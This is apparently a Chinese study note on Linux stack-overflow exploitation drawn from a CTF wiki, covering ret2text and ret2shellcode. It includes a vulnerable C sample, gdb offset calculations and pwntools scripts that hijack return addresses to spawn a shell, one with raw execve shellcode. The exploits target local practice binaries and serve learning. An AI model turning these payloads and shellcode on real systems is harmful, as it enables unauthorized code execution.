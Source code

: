 # 栈溢出

## [栈溢出原理](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow_basic/)

样例

```c
// stack_example.c
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

编译指令：

```bash
stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
```

断点下在 `vulnerable()` 上，查看栈帧。

此时 `$esp` 的地址为 `0xffffce20` ，`$ebp` 的地址为 `0xffffce38` 。由于 `s` 的地址相对 `$esp` 的偏移为 `+4h` ，因此 `s` 的地址为 ` 0xffffce24` ，相对 `$ebp` 的偏移就是 `0x14` ，相对于返回地址的偏移为 `0x14+0x4=0x18` 。又知 `success()` 函数地址为`0x804843B` ，可以构造payload：

```python
from pwn import *
success_addr = 0x804843B
p = process('./stack_example')
payload = 'a'*(0x14+0x4)+p32(success_addr)
p.sendline(payload)
p.interactive()
```

就能成功执行了。

## [基本ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic_rop/)

ROP概念

### ret2text

简介：

控制程序执行程序本身已有的代码。

核心

确定我们能够控制的内存的起始地址距离 main 函数的返回地址的字节数。

样例

分析 ret2text：

checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

打开IDA分析

发现gets函数存在栈溢出的可能，在`secure()`函数中发现了`system("/bin/sh");`这一指令。

查看汇编指令及相应的内存地址，我们我们需要将返回值返回到这里就可以了。

将断点下在 `0x080486AE` 并进行调试。

此时 `$esp` 的值为 `0xffffcde0` ，`$ebp` 的值为 `0xffffce68 ` 。由IDA的反汇编知字符串 `s` 相对于 `$esp` 的偏移为 `0x1c` ，所以 `s` 的地址为 `0xffffcdfc` 。所以 `s` 相对 `$ebp` 的偏移为 `0x6c` ，相对于返回地址的偏移为`0x6c+4=0x70` 。则可以构造出 payload:

```python
import pwn
p = pwn.process('./ret2text')
sh_addr = 0x0804863A
p.sendline('a'*(0x6c+4)+pwn.p32(sh_addr))
p.interactive()
```

这样就可以拿到shell了。

### ret2shellcode

简介：

控制程序执行 shellcode代码

核心：

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

样例

首先 `checksec`

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

没有任何保护，还有可执行可读可写段。

用IDA查看它的大概逻辑，将输入的字符串 `s` 拷贝到了位于 `.bss` 段的 `buf2` 处。其地址为 `0x804A080` 。

使用 `vmmap` 指令查看该 `bss` 段是否可执行。

具体操作如下：

使用 gdb 将断点下在 `main` 处，运行，输入命令 `vmmap` ，发现有如下输出：

```bash
0x08048000 0x08049000 r-xp	/home/qrz/Desktop/pwn-study/ret2shellcode
0x08049000 0x0804a000 r-xp	/home/qrz/Desktop/pwn-study/ret2shellcode
0x0804a000 0x0804b000 rwxp	/home/qrz/Desktop/pwn-study/ret2shellcode
0xf7dfb000 0xf7dfc000 rwxp	mapped
0xf7dfc000 0xf7fac000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fac000 0xf7fae000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7faf000 rwxp	/lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb2000 rwxp	mapped
0xf7fd3000 0xf7fd4000 rwxp	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp	[stack]
```

发现我们要用的那一段

```bash
0x0804a000 0x0804b000 rwxp	/home/qrz/Desktop/pwn-study/ret2shellcode
```

是可以执行的。

于是我们的思路是这样的：

输入 `shellcode` ，它会被拷贝到相应的 `.bss` 段，接下来我们通过ROP的方式使得返回地址指向该段的地址就可以了。

看看这时 `main` 函数的栈帧：

`$esp` =` 0xffffcdd0` ，`$ebp` = `0xffffce58` ，`s_addr` = `0xffffcdec` 

`s` 到栈底的距离为 `0xe58-0xdec=0x6c` 。

这时就可以构造 `payload` 了。

```python
# --*--coding:utf-8--*--
from pwn import *
p = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804A080
payload = shellcode.ljust((0x6c+4),'a')+p32(buf2_addr)
p.sendline(payload)
p.interactive()
```

这里用到了 pwntools 自带的 `shellcraft.sh()` 方法。其他的方法还需要相应的学习。

查看shellcode的网站：https://www.exploit-db.com/shellcode/

这里他布置了一道习题：sniperoj-pwn100-shellcode-x86-64 ，我们来看一下：

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

发现是64位的，接着看源代码：

中间有一处打印出来了 `buf` 的地址，可以使用之。

根据wp：

>通过
>
>```
>  __int64 buf; // [sp+0h] [bp-10h]@1
>  read(0, &buf, 0x40uLL);
>```
>
>可以知道buf相对于ebp的偏移为0x10,所以其可用的shellcode空间为16+8=24。我找了到了一个长度为23的shellcode。但是其本身是有push指令的，这时候如果我们把shellcode放在最前面，在程序leave的时候，在执行这些就会被覆盖。

不得不佩服一下，这个我真的没有想到。就是说`buf`后面 `0x10+0x8` 大小的空间都不可以使用，因为在那之前的 `leave` 指令会将这一段覆盖掉。既然这样，我们跳过这一段就可以了。

这时的payload就是：

```bash
'a'*(0x10+8)+(buf_addr+(0x10+8+8))+shellcode
```

这个payload的长度是55，小于 0x40 。我们还可以试试其他的shellcode。在这之前，我们把它转换成代码吧。

```python
# --*-- coding:utf-8 --*--
from pwn import *

p = process('./shellcode')

shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.recvuntil('[')
buf_addr = p.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)

payload = 'a'*24+p64(buf_addr+32)+shellcode_x64
print(len(payload))
p.sendline(payload)
p.interactive()
```


